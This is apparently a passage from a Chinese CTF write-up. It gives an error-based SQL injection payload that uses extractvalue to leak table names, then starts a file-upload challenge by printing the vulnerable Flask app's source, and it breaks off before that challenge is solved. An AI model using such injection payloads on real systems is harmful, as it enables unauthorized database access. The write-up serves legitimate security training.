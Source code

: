 ```php
?>
```

报错注入

过滤：https://www.anquanke.com/post/id/193512

```php
1'|| extractvalue(1,concat(0x7e,(select group_concat(table_name) from mysql.innodb_table_stats),0x7e))#
```

flag在output中

##  babyupload

```python
from flask import Flask, request, redirect, g, send_from_directory
import sqlite3
import os
import uuid

app = Flask(__name__)

SCHEMA = """CREATE TABLE files (
id text primary key,
path text
);
"""


def db():
    g_db = getattr(g, '_database', None)
    if g_db is None:
        g_db = g._database = sqlite3.connect("database.db")
    return g_db


@app.before_first_request
def setup():
    os.remove("database.db")
    cur = db().cursor()
    cur.executescript(SCHEMA)


@app.route('/')
def hello_world():
    return """<!DOCTYPE html>
<html>
<body>
<form action="/upload" method="post" enctype="multipart/form-data">
    Select image to upload:
    <input type="file" name="file">
    <input type="submit" value="Upload File" name="submit">
</form>
<!-- /source -->
</body>
</html>"""


@app.route('/source')
def source():
    return send_from_directory(directory="/var/www/html/", path="www.zip", as_attachment=True)


```